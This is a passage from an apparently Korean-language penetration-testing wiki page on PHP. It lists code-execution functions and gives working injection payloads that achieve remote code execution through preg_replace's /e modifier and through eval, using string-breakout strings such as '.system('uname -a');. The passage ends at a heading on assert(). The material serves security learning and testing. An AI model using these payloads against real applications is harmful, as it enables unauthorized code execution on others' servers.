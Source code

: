 ![](<../../../.gitbook/assets/image (1085).png>)

## PHP 함수에서의 SSRF

페이지를 확인하세요:

{% content-ref url="php-ssrf.md" %}
[php-ssrf.md](php-ssrf.md)
{% endcontent-ref %}

## 코드 실행

**system("ls");**\
**\`ls\`;**\
**shell\_exec("ls");**

[더 유용한 PHP 함수는 여기에서 확인하세요](php-useful-functions-disable\_functions-open\_basedir-bypass/)

### **preg\_replace()를 통한** **RCE**
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
코드를 실행하려면 "replace" 인수에 최소한 하나의 일치 항목이 필요합니다.\
이 preg\_replace 옵션은 **PHP 5.5.0부터 사용 중단되었습니다.**

### **Eval()을 통한 RCE**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **Assert()를 통한 RCE**
